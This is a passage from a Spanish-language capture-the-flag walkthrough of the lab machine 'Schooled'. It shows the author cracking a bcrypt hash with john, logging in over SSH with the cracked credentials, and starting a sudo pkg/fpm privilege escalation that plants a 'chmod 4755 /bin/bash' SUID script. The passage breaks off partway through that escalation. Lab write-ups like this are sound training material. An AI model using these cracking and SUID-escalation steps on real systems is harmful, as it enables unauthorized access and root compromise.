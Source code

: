 ```bash
~$> echo "admin:\$2y\$10\$3D/gznFHdpV6PXt1cLPhX.ViTgs87DCE5KqphQhGYR5GFbcl4qTiW" > hash
```
 - Ahora **crackeamos** el hash, en mi caso con **john**

```bash
~$> john --wordlist=/usr/share/wordlists/rockyou.txt hash
```
```bash
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
!QAZ2wsx	(admin)
```
Luego de un rato conseguimos unas credenciales, una contraseña y un usuario el cual usaremos para conectarnos por ssh como el usuario (**jamie** <- usuario administrador)

> Esto podemos hacerlo desde la máquina víctima o desde nuestra máquina de atacante (yo prefiero conectarme desde mi máquina)

```bash
~$> ssh jamie@10.10.10.234
Password for jamie@Schooled: !QAZ2wsx
```
```bash
jamie@Schooled:~ $ whoami
jamie
```
Perfecto!, podemos conectarnos y leer la flag **user.txt**
```bash
jamie@Schooled:~ $ ls
user.txt
jamie@Schooled:~ $ cat user.txt
```
Ahora, para escalar privilegios, listamos las acciones que podemos hacer como el usuario **root**

```bash
jamie@Schooled:~ $ sudo -l
```
```bash
User jamie may run the following commands on Schooled:
    (ALL) NOPASSWD: /usr/sbin/pkg update
    (ALL) NOPASSWD: /usr/sbin/pkg install *
```
Y vemos que podemos ejecutar **pkg** como **root** sin proporcionar contraseña

Buscando un poco encontré [este post](https://gtfobins.github.io/gtfobins/pkg/#sudo) en el que se nos explica como abusar de **pkg** haciendo uso de **fpm**

> fpm es una gema que tendremos que instalar en nuestra máquina, esto con **gem install fpm**

Hacemos esto en nuestra máquina

```bash
~$> TF=$(mktemp -d)
~$> echo 'chmod 4755 /bin/bash' > $TF/x.sh
```
 - ```chmod 4755 /bin/bash``` -> Asignar permisos **SUID** a la bash
